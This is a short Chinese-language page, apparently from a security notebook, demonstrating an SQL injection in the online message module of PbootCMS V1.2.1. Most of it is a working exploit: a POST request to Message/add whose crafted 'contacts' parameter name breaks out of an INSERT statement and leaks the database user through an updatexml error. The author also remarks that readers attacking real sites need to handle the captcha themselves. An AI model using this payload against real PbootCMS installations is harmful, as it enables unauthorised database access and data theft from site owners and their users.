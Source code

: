 # PbootCMS sql 注入

> 原文：[http://book.iwonder.run/0day/PbootCMS/1.html](http://book.iwonder.run/0day/PbootCMS/1.html)

## 0x01 前台 home 模块注入漏洞

## 0x01.1 在线留言处 insert sql 注入

### 0x01.1.2 漏洞演示

注：我本地测试的所以我把验证验证码那一步关闭了=-=，实战中请自己加上验证码

![image](img/53d5685bf692b18df91bd441d0eb7f07.png)

```
url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Message/add
post:
    contacts[content`,`create_time`,`update_time`) VALUES ('1', '1' ,1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111
    content = 1111
    mobile = 1111 
```
